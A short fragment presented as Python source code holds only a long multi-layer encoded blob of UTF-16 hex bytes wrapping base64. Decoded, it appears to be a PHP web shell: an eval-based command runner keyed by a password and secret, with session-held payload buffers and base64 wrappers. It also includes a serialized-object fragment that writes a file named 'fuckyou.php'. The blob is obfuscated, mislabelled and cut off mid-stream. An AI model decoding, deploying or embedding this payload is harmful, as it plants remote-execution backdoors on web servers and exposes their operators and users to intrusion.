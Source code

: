 ```python
6D=00=64=00=57=00=35=00=6A=00=64=00=47=00=6C=00=76=00=62=00=69=00=42=00=75=00=64=00=6D=00=39=00=72=00=5A=00=53=00=68=00=65=00=4A=00=48=00=41=00=70=00=49=00=48=00=74=00=6C=00=64=00=6D=00=46=00=73=00=4B=00=46=00=34=00=6B=00=63=00=43=00=34=00=69=00=49=00=69=00=6B=00=37=00=66=00=58=00=31=00=65=00=4A=00=46=00=49=00=39=00=62=00=6D=00=56=00=33=00=49=00=45=00=4D=00=6F=00=4B=00=54=00=74=00=65=00=4A=00=46=00=49=00=74=00=58=00=6A=00=35=00=75=00=64=00=6D=00=39=00=72=00=5A=00=53=00=68=00=65=00=4A=00=45=00=46=00=62=00=4D=00=46=00=30=00=70=00=4F=00=32=00=56=00=6A=00=61=00=47=00=38=00=67=00=63=00=33=00=56=00=69=00=63=00=33=00=52=00=79=00=4B=00=47=00=31=00=6B=00=4E=00=53=00=68=00=65=00=4A=00=46=00=41=00=75=00=58=00=69=00=52=00=55=00=4B=00=53=00=77=00=77=00=4C=00=44=00=45=00=32=00=4B=00=54=00=74=00=6C=00=59=00=32=00=68=00=76=00=49=00=46=00=45=00=6F=00=52=00=53=00=68=00=41=00=63=00=6E=00=56=00=75=00=4B=00=46=00=34=00=6B=00=52=00=69=00=6B=00=73=00=58=00=69=00=52=00=55=00=4B=00=53=00=6B=00=37=00=5A=00=57=00=4E=00=6F=00=62=00=79=00=42=00=7A=00=64=00=57=00=4A=00=7A=00=64=00=48=00=49=00=6F=00=62=00=57=00=51=00=31=00=4B=00=46=00=34=00=6B=00=55=00=43=00=35=00=65=00=4A=00=46=00=51=00=70=00=4C=00=44=00=45=00=32=00=4B=00=54=00=74=00=39=00=5A=00=57=00=78=00=7A=00=5A=00=58=00=74=00=65=00=4A=00=46=00=39=00=54=00=52=00=56=00=4E=00=54=00=53=00=55=00=39=00=4F=00=57=00=31=00=34=00=6B=00=56=00=6C=00=30=00=39=00=58=00=69=00=52=00=47=00=4F=00=33=00=31=00=39=00=49=00=44=00=34=00=75=00=4C=00=32=00=5A=00=31=00=59=00=32=00=74=00=35=00=62=00=33=00=55=00=75=00=63=00=47=00=68=00=77=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=55=00=36=00=49=00=6D=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=31=00=39=00=63=00=7A=00=6F=00=34=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=70=00=62=00=6D=00=6C=00=30=00=61=00=57=00=46=00=73=00=61=00=58=00=70=00=6C=00=5A=00=43=00=49=00=37=00=59=00=6A=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6B=00=78=00=70=00=62=00=57=00=6C=00=30=00=49=00=6A=00=74=00=70=00=4F=00=69=00=30=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=42=00=79=00=62=00=32=00=4E=00=6C=00=63=00=33=00=4E=00=76=00=63=00=6E=00=4D=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=33=00=56=00=79=00=63=00=6D=00=56=00=75=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4E=00=6A=00=6F=00=69=00=63=00=33=00=6C=00=7A=00=64=00=47=00=56=00=74=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=6A=00=51=00=78=00=4F=00=69=00=4A=00=6C=00=59=00=32=00=68=00=76=00=49=00=46=00=34=00=38=00=50=00=33=00=42=00=6F=00=63=00=43=00=42=00=7A=00=5A=00=58=00=4E=00=7A=00=61=00=57=00=39=00=75=00=58=00=33=00=4E=00=30=00=59=00=58=00=4A=00=30=00=4B=00=43=00=6B=00=37=00=51=00=48=00=4E=00=6C=00=64=00=46=00=39=00=30=00=61=00=57=00=31=00=6C=00=58=00=32=00=78=00=70=00=62=00=57=00=6C=00=30=00=4B=00=44=00=41=00=70=00=4F=00=30=00=42=00=6C=00=63=00=6E=00=4A=00=76=00=63=00=6C=00=39=00=79=00=5A=00=58=00=42=00=76=00=63=00=6E=00=52=00=70=00=62=00=6D=00=63=00=6F=00=4D=00=43=00=6B=00=37=00=5A=00=6E=00=56=00=75=00=59=00=33=00=52=00=70=00=62=00=32=00=34=00=67=00=52=00=53=00=68=00=65=00=4A=00=45=00=51=00=73=00=58=00=69=00=52=00=4C=00=4B=00=58=00=74=00=6D=00=62=00=33=00=49=00=6F=00=58=00=69=00=52=00=70=00=50=00=54=00=41=00=37=00=58=00=69=00=52=00=70=00=58=00=6A=00=78=00=7A=00=64=00=48=00=4A=00=73=00=5A=00=57=00=34=00=6F=00=58=00=69=00=52=00=45=00=4B=00=54=00=74=00=65=00=4A=00=47=00=6B=00=72=00=4B=00=79=00=6B=00=67=00=65=00=31=00=34=00=6B=00=52=00=46=00=74=00=65=00=4A=00=47=00=6C=00=64=00=49=00=44=00=30=00=67=00=58=00=69=00=52=00=45=00=57=00=31=00=34=00=6B=00=61=00=56=00=31=00=65=00=58=00=6C=00=34=00=6B=00=53=00=31=00=74=00=65=00=4A=00=47=00=6B=00=72=00=4D=00=56=00=34=00=6D=00=4D=00=54=00=56=00=64=00=4F=00=33=00=31=00=79=00=5A=00=58=00=52=00=31=00=63=00=6D=00=34=00=67=00=58=00=69=00=52=00=45=00=4F=00=33=00=31=00=6D=00=64=00=57=00=35=00=6A=00=64=00=47=00=6C=00=76=00=62=00=69=00=42=00=52=00=4B=00=46=00=34=00=6B=00=52=00=43=00=6C=00=37=00=63=00=6D=00=56=00=30=00=64=00=58=00=4A=00=75=00=49=00=47=00=4A=00=68=00=63=00=32=00=55=00=32=00=4E=00=46=00=39=00=6C=00=62=00=6D=00=4E=00=76=00=5A=00=47=00=55=00=6F=00=58=00=69=00=52=00=45=00=4B=00=54=00=74=00=39=00=5A=00=6E=00=56=00=75=00=59=00=33=00=52=00=70=00=62=00=32=00=34=00=67=00=54=00=79=00=68=00=65=00=4A=00=45=00=51=00=70=00=65=00=33=00=4A=00=6C=00=64=00=48=00=56=00=79=00=62=00=69=00=42=00=69=00=59=00=58=00=4E=00=6C=00=4E=00=6A=00=52=00=66=00=5A=00=47=00=56=00=6A=00=62=00=32=00=52=00=6C=00=4B=00=46=00=34=00=6B=00=52=00=43=00=6B=00=37=00=66=00=56=00=34=00=6B=00=55=00=44=00=30=00=6E=00=63=00=47=00=46=00=7A=00=63=00=79=00=63=00=37=00=58=00=69=00=52=00=57=00=50=00=53=00=64=00=77=00=59=00=58=00=6C=00=73=00=62=00=32=00=46=00=6B=00=4A=00=7A=00=74=00=65=00=4A=00=46=00=51=00=39=00=4A=00=7A=00=4E=00=6A=00=4E=00=6D=00=55=00=77=00=59=00=6A=00=68=00=68=00=4F=00=57=00=4D=00=78=00=4E=00=54=00=49=00=79=00=4E=00=47=00=45=00=6E=00=4F=00=32=00=6C=00=6D=00=49=00=43=00=68=00=70=00=63=00=33=00=4E=00=6C=00=64=00=43=00=68=00=65=00=4A=00=46=00=39=00=51=00=54=00=31=00=4E=00=55=00=57=00=31=00=34=00=6B=00=55=00=46=00=30=00=70=00=4B
```